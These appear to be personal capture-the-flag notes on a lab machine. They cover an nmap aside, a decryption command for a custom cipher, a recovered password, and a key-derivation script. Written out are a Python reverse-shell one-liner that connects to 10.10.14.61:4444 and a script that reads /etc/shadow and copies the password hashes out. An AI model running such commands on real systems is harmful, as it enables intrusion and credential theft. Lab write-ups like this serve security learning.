 * The "BadHTTPServer" could be refering to the python "BaseHTTPServer" especially that we realised that the backend is python obviously because of the previous message on the website.

* Why did nmap show me closed ports?  
  <blockquote>
  A closed port is accessible (it receives and responds to Nmap probe packets), but there is no application listening on it.
  </blockquote>


¦ÚÈêÚÞØÛÝÝ×ÐÊßÞÊÚÉæßÝËÚÛÚêÙÉëéÑÒÝÍÐêÆáÙÞãÒÑÐáÙ¦ÕæØãÊÎÍßÚêÆÝáäèÎÍÚÎëÑÓäáÛÌ×v  
Encrypting this file with your key should result in out.txt, make sure your key is correct!

python3 SuperSecureCrypt.py -d -i passwordreminder.txt -o /tmp/decryptTest -k alexandrovich 

* Robert's password  
SecThruObsFTW


* My code to get the key  

```python
# Online Python compiler (interpreter) to run Python online.
# Write Python 3 code in this online editor and run it.
plainText = ""
# put same space in cypher text as in plain text
cypherText = ""

keyPos = 0
key = ""
for x in cypherText:
    plainTextOrd = ord(plainText[keyPos])
    cypherTextOrd = ord(x)
    newChr = cypherTextOrd - plainTextOrd
    key += chr(newChr)
    keyPos += 1
print(key)
```  

* Make sure that the code is working.  


```
python -c 'import socket,os,pty;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("10.10.14.61",4444));os.dup2(s.fileno(),0);os.dup2(s.fileno(),1);os.dup2(s.fileno(),2);pty.spawn("/bin/sh")'
```

[Configuration]
AdminIdentities=unix-user:0
[Configuration]
AdminIdentities=unix-group:sudo;unix-group:admin


```python
# Try 1
#!/env/.../python forgot
while True:
  if len(os.listDir('/tmp/SSH')) > 0:
    with open('/etc/shadow', 'r') as f:
    data = f.readlines()
    data = [(p.split(":") if "$" in p else None) for p in data]
    passwords = []
    for x in data:
    if not x == None:
      passwords.append(x)

    passwordFile = '\n'.join(['\n'.join(p) for p in passwords]) 
    with open('/tmp/SSH/'+path, 'w') as f:
    f.write(passwordFile)
    break
```